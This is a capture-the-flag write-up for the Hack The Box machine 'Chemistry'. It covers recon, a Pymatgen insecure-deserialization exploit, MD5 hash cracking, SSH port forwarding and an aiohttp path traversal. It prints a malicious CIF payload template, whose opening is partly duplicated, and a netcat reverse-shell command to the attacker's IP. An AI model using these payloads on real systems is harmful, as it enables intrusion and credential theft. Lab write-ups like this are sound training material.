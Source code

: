 ![image](https://github.com/user-attachments/assets/81146324-46a2-4112-a69d-7cd2f5ea7918)

<br>

PLATFORM : <br>**Hack The Box**

BOX : <br>**Chemistry**

DIFFICULTY : <br>**Easy**

OS : <br>**Linux**

AUTHOR: <br>**Francesco Basile**

<br><br>

The inital nmap scans reveals two ports open, 22 and 5000.
 
    $ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt
    Starting Nmap 7.80 (https://nmap.org) at 2024-10-22 23:37 CEST
    Nmap scan report for chemistry (10.10.11.38)
    Host is up (0.51s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  upnp?
    | fingerprint-strings:
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/3.0.3 Python/3.9.5
    |     Date: Tue, 22 Oct 2024 21:37:54 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 719
    |     Vary: Cookie
    |     Connection: close
    |
    |     class="title">Chemistry CIF Analyzer
    |
    |     Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.


<br><br>

# Pymatgen Insecure Deserializazion

<br>

The application hosted on the box at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.

![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>

Searching the web i find the recent *CVE-2024-23346* 

    https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure deserializazion*.
All you need to do is craft a malicious .cif file, and then inject the command you want to execute in it. We have a template of the file's structure in the link above:

    data_5yOhtAoR
    _audit_creation_date            2018-06-08
    _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
    
    loop_
    _parent_propagation_vector.id
    _parent_propagation_vector.kxkykz
    k1 [0 0 0]
    
    _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d indata_5yOhtAoR
    _audit_creation_date            2018-06-08
    _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
    
    loop_
    _parent_propagation_vector.id
    _parent_propagation_vector.kxkykz
    k1 [0 0 0]
    
    _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
    ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" +
    "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("INSERT PAYLOAD");0,0,0'
    
    _space_group_magn.number_BNS  62.448
    _space_group_magn.name_BNS  "P  n'  m  a'  " 

<br><br>

Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, i find the right one to be:

    busybox nc 10.10.15.56 1337 -e sh

<br><br>

Which allows me to gain a reverse shell:

![Pasted image 20241023004209-1](https://github.com/user-attachments/assets/863f5c8e-9fd9-4335-832c-3b353981df40)


<br><br>

# Web App Enumeration

<br>

Checking the app's directory, i'm able to retrieve the .db database that has stored all the *users passwords md5 hashes*, encoded with the following algorythm, as i can read in the *app.py* file.

    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br>

![Pasted image 20241023010333-1](https://github.com/user-attachments/assets/4d608551-6f3c-4efa-aa7f-12c6edfd4eac)

<br>

![Pasted image 20241023010740-1](https://github.com/user-attachments/assets/23efb1d7-f3bc-4c83-90d7-86ee6a9ee831)

<br><br>

A quick hop to https://crackstation.net reveals me the cleartext password of rosa's user:

![Pasted image 20241102202421](https://github.com/user-attachments/assets/f75f982e-c7e4-4475-aaef-a51aa3d913ff)

<br><br>

And finally i get an initial foothold on the machine. I have a set of credentials to access ssh:

    rosa:<PASSWORD>

<br><br>

# SSH Port Forwarding

<br>

Running linpeas.sh on the machine, i find out a *service listening on port 8080*, localhost

![Pasted image 20241023012150-2](https://github.com/user-attachments/assets/e23684f0-94c2-458f-bc70-886c0c5d34ca)

<br><br>

To enumerate this service, i make up an *SSH Port Forwarding* to our remote host, using the following command:

    ssh -L 8080:localhost:8080 rosa@10.10.11.38

<br><br>

This forwards *my local* 8080 port  to the remote machine's local 8080 port. 

<br>

*Attacking Box 127.0.0.1:8080 ----> Victim Box 127.0.0.1:8080*

<br>

It basically means that i can direct external traffic, like a scan or even access the service from a browser if possible, 
to an internal service on a remote machine that otherwise would be accessible only from the box itself.

<br><br>

# AioHttp Exploitation

<br>

Nmap shows me that Chemistry is running *aiohttp 3.9.1*:

![Pasted image 20241102200205](https://github.com/user-attachments/assets/cf5b4ec4-b9b7-4c90-b592-e9532b9966f0)

<br><br>

And this is the first result if i search it on google:

    https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. I'm going to modify a bit the script to make it run on *my* localhost's port 8080 and redirecting the exploit to the internal service, trying to read *root's flag*. 

![Pasted image 20241102200634](https://github.com/user-attachments/assets/ade0fe67-0d57-48da-a028-0c308f1ffe52)

<br><br>

And...

![Pasted image 20241102201153](https://github.com/user-attachments/assets/40bfecd8-d215-4b34-abe2-ae06e139e189)

<br><br>

Success. I have partial root access that can be leveraged to a shell and eventual full compromise of the box.
